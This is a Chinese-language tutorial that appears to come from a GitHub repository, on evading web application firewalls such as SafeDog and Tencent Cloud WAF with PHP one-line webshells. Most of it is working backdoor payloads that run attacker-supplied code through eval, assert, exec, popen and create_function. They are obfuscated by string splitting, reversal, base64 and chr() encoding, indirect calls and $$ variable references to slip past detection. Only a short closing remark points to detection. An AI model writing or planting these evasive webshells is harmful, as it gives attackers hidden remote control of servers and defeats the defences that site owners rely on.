### PHP-WebShell-Bypass-WAF

  PHP WebShell 一句话的结构是:输入和执行,这是经典的PHP 一句话代码:

```PHP
    <?php eval($_GET['test']); ?>
    <?php eval($_POST['test']); ?>
```

WebShell 的输入点在<b>$_GET</b> 和<b>$_POST</b> ,执行点在**eval()** ,经典的一句话WAF 都会拦截<br/>

  测试:`<?php eval($_GET['test']); ?>`


  测试:`<?php $_GET['test']; ?>`



  测试:`<?php eval(); ?>`



  综合上面三点,可以发现WAF 是通过关键字来拦截的,把这三个测试用例放到安全狗下测试



  可以发现,安全狗是通过综合判断来识别WebShell 的,现在,我们有两种的绕过方式:关键字绕过和混淆绕过

### 关键字绕过

  一般来说,WAF 里边的拦截规则都是使用了正则来匹配的,第一个绕过思路:**寻找WAF 拦截里边有没有匹配的关键字**<br/>
  
  测试用例:`<?php%20assert('$code='.$_REQUEST['code']);$code();%20?>`



  测试用例:`<?php%20$file=file_put_contents('code.php','<?php%20'.$_REQUEST['code'].'%20?>');include%20'code.php';%20?>`



  测试用例:`<?php%20exec($_REQUEST['code']);%20?>`



  测试用例:`<?php%20$handle=popen($_REQUEST['code'],'r');echo%20fread($handle,1024*4);?>`



  测试用例:`<?php%20$function=create_function('$code',strrev('lave').'('.strrev('TEG_$').'["code"]);');$function();%20?>`


  思路1 总结:尽可能找到更多不被拦截的函数,然后用来测试

  后来,这些关键字都被策略补上去了,接下来就使用混淆来绕过关键字检测

### 混淆绕过

  `create_function()` 是比较有意思的函数,函数的原型为:[Link](http://php.net/manual/en/function.create-function.php)
  
```PHP
    string create_function ( string $args , string $code )
```

  第一个参数是函数需要的参数列表,第二个参数为函数代码,最后会返回一个函数对象,然后再去调用.在构造代码的时候(构造第二个参数)可以有很多不同的混淆方法
  
```PHP
    eval($_GET['test']);
```
  
  通过很多不同种类的字符串变化成下面的例子
  
```PHP
    'ev'.'al'.'($_G'.'ET['.'"test"]);'
    strrev('$(lave').'_G'.'ET['.'"test"]);';
    base64_decode('ZXZhbCgkX0dFVFsidGVzdCJdKTs=');
```

  这样的变化是非常多的,用云WAF 和安全狗测试一下:

```PHP
    <?php $function=create_function('$code','ev'.'al'.'($_G'.'ET['.'"test"]);') ?>
    <?php $function=create_function('$code',strrev('$(lave').'($_G'.'ET['.'"test"]);') ?>
    <?php $function=create_function('$code',base64_decode('ZXZhbCgkX0dFVFsidGVzdCJdKTs=')) ?>
```





  腾讯云WAF 的策略是把`create_function()` 当作敏感函数拦截了,这三个WebShell 安全狗也都全部杀掉,先从安全狗开始尝试绕过.
  
  首先使用一个空的`create_function()` 尝试看看安全狗有没有杀掉



  向`create_function()` 填充一些可以执行的代码,安全狗也没有杀.



  填充`eval($_GET['test'])` ,发现安全狗识别出WebShell
  


  使用混淆`'ev'.'al'.'($_G'.'ET['.'"code"'.']);'` 也同样可以被识别



  使用`strrev('ve').strrev('la').base64_decode('KCRfR0VUWw==').'"code"'.']);';` 也还是可以别识别



  不过不要灰心,PHP 是很灵活的语言,变化的花样很多,试试这样写,就可以绕过安全狗的扫描了



  做一句话WAF 绕过和免杀,一定要相信自己,AV 和WAF 除了用关键字和综合判断来识别WebShell ,终会有办法绕过的.现在过狗,接下来介绍一下间接调用函数与间接引用变量.

### 间接调用函数

  PHP 里边有个语法是`$function='eval';` ,然后就可以直接对$function 变量进行函数调用,语法是`$function()`.基于这一点,我们回过头来绕过云WAF

Payload:

```PHP
    <?php $function='create'.'_function';$function=$function('$code','ev'.'al'.'($_'.'GET'.'["code"]);');$function();?>
```



### 间接调用变量

  PHP 还有一个语法是`$$` 间接引用变量,比如:`$test=1234;$reference='test';echo $$reference;` 这样使用,reference 变量里边保存test 变量的名字,然后用符号$$ 即可引用到变量test .这样有什么意义呢?因为WAF 和AV 会通过$_GET ,$_POST 来判断WebShell ,不妨回到云WAF 再看看



  使用`$$` 来绕过,Payload 如下:

```PHP
    <?php $a = '_GET';echo $$a['test'];  //  云WAF 规则已经更新,<?php ?> 会被拦截,所以去掉?> 即可绕过,由此判断是正则匹配,可以开开脑洞发挥一下绕过正则判断
```



  这样就可以绕过对$_GET ,$_POST 的检测,同样,还有$_REQUESTS ,$_COOKIE 



### 文末总结

  到了这里,举一些不错的一句话木马来分析一下原理,推荐深入研究的读者访问这里[Link](https://github.com/tennc/webshell/tree/master/php)

1.

```PHP
    <?php array_map("ass\x65rt",(array)$_REQUEST['expdoor']);?>
```

  这个WebShell 使用到`array_map()` 和`ass\x65rt` ,array_map() 是调用函数的,第一个参数是即将要调用的函数名,这里`ass\x65rt` 使用了编码绕过,绕过了字符串判断,第二个参数是传递给这个函数的参数

2.

```PHP
    <?$_uU=chr(99).chr(104).chr(114);$_cC=$_uU(101).$_uU(118).$_uU(97).$_uU(108).$_uU(40).$_uU(36).$_uU(95).$_uU(80).$_uU(79).$_uU(83).$_uU(84).$_uU(91).$_uU(49).$_uU(93).$_uU(41).$_uU(59);$_fF=$_uU(99).$_uU(114).$_uU(101).$_uU(97).$_uU(116).$_uU(101).$_uU(95).$_uU(102).$_uU(117).$_uU(110).$_uU(99).$_uU(116).$_uU(105).$_uU(111).$_uU(110);$_=$_fF("",$_cC);@$_();?>

```
  这个WebShell 使用到了间接引用函数,$_uU 重定向到chr() ,;$_cC 最后解码为`eval($_POST[1]);` ,$_fF 解码为`create_function` ,最后就是create_function 的调用过程,和php-shell-create_function.php 原理一样

3.

  未知攻,焉知防,这个是关于PHP Shell 的一句话检测脚本[Link](https://github.com/tennc/webshell/blob/master/php/pHp%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%89%AB%E6%8F%8F%E8%84%9A%E6%9C%AC%E7%A8%8B%E5%BA%8F.php),很多绕过的思路都是在做防御的时候想到的,没有绝对的防御,甚至是看起来正确的思路在代码实现的过程中会存在Bug 导致分析或者识别失败.

